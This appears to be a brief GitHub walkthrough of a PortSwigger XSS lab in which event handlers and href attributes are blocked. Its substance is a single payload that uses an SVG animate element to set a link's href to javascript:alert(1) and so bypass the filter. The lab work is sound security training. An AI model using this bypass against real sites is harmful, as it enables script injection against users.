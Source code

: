 ## Welcome, my friend. Today we will start the [15. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c4cd4c47-e8b4-4f77-85a9-8a2f82d14953)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/309af7f0-6d3e-41f2-8b24-b29d46874f5e)


### Let's enter ```javascript``` code in body:



```
<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
```

![image](https://github.com/user-attachments/assets/89747603-8361-4376-a322-7aac2a3a34a1)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/8f8a9ade-24d6-44d0-b3b5-567ba5ff29ec" >
</p>
